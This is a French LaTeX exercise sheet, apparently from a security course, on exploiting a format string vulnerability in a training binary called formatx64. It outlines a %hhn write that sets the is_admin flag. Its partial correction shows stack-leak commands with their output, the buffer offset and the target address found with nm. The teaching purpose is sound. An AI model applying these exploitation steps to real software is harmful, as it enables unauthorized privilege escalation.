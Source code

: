 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{enumerate}
\item[\textbf{5b)}] Trouver l'adresse de la variable globale \texttt{is\_admin} avec \texttt{nm} ou \texttt{objdump} :
\begin{lstlisting}[style=GDBStyle]
nm formatx64 | grep is_admin
\end{lstlisting}

\item[\textbf{5c)}] Construire l'exploit \texttt{\%hhn} pour écrire une valeur non nulle dans \texttt{is\_admin}. La stratégie est :
\begin{enumerate}
    \item Placer l'adresse de \texttt{is\_admin} en fin de payload (après les spécificateurs de format)
    \item Utiliser du padding pour ajuster le nombre de caractères affichés
    \item Utiliser \texttt{\%hhn} avec l'offset approprié pour écrire dans \texttt{is\_admin}
\end{enumerate}

\item[\textbf{5d)}] Exécuter l'exploit et vérifier que le message \texttt{"Admin access granted!"} s'affiche.
\end{enumerate}

\begin{correction}

\textbf{5a)} Localisation du buffer sur la pile :
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 "AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p"
=== FormatX64 - Format String Vulnerability ===

[DEBUG] is_admin is at address: 0x404040
[DEBUG] is_admin value (before): 0

AAAAAAAA.0x7fffffffdc30.0x7ffff7f9a2a0.(nil).0x7fffffffdd40.
0x7ffff7ffdaa0.0x4141414141414141.0x2e70252e70252e2e.0x252e70252e70252e
\end{lstlisting}

On voit \texttt{0x4141414141414141} en position \textbf{6}. Donc \texttt{k = 6} :
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 $(python3 -c "print('AAAAAAAA%6\$p')")
... 0x4141414141414141 ...
\end{lstlisting}

\textbf{5b)} Adresse de \texttt{is\_admin} :
\begin{lstlisting}[style=GDBStyle]
$ nm formatx64 | grep is_admin
0000000000404040 B is_admin
\end{lstlisting}
L'adresse est \texttt{0x404040}.


\end{correction}
\end{exercice}
\end{document}
